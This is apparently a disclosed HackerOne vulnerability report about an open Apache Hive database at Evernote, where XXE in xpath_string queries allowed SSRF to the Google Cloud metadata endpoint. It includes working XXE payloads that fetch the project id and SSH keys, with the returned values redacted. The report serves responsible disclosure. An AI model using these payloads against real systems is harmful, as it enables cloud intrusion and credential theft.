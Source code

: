 # Non-production Open Database In Combination With XXE Leads To SSRF

## Report Details
- **Report ID**: 742808
- **URL**: https://hackerone.com/reports/742808
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2019-11-21T00:27:31.178Z
- **Disclosed**: 2020-10-27T15:20:40.726Z

## Reporter
- **Username**: kaulse
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: evernote

## Vulnerability Information
## Summary:
The Apache Hive database hosted on the IP ██████████ and open on port 10000 is open and vulnerable to XXE.
By "open", I mean that the database can be accessed by anyone.

## Steps To Reproduce:
Chose any database client that supports Apache Hive and also uses a specific client version. "Specific client version" because you will otherwise get an error which looks like this:
```
13:22:26.077 [main] ERROR org.apache.hive.jdbc.HiveConnection - Error opening session
org.apache.hive.org.apache.thrift.TApplicationException: Required field 'client_protocol' is unset! Struct:TOpenSessionReq(client_protocol:null, configuration:{set:hiveconf:hive.server2.thrift.resultset.default.fetch.size=1000, use:database=default})
```
  1. Chose a database client and connect to mentioned IP and port
  2. Execute the following SQL payload:

```SQL
select xpath_string('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://metadata.google.internal/computeMetadata/v1beta1/project/project-id"> ]><stockCheck>&xxe;</stockCheck>', '*') FROM test LIMIT 5;
```
The query above will return the associated project id which is "en-development".

## Supporting Material/References:
I will list some interesting information that I queried below.

**Query**
```SQL
select xpath_string('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys"> ]><stockCheck>&xxe;</stockCheck>', '*') FROM test LIMIT 5;
```
**Response**
```
████
█████
██████████
█████████
██████
██████████
██████
████████
████
████
████████
███████
█████████
███████
██████
█████
███
███
████
████████
██████
█████████
███████
██████████
█████████
████
█████████
████
██████████
█████
██████████
█████
████████
██████████
██████
██████████
█████
█████
██████
██████████
█████
███
████
```

## Impact

Access to the GCP project via the Google Cloud metadata endpoint which leads to access to at least the Google Cloud storage buckets and Google Cloud BigTable/BigQuery.

## Attachments
No attachments
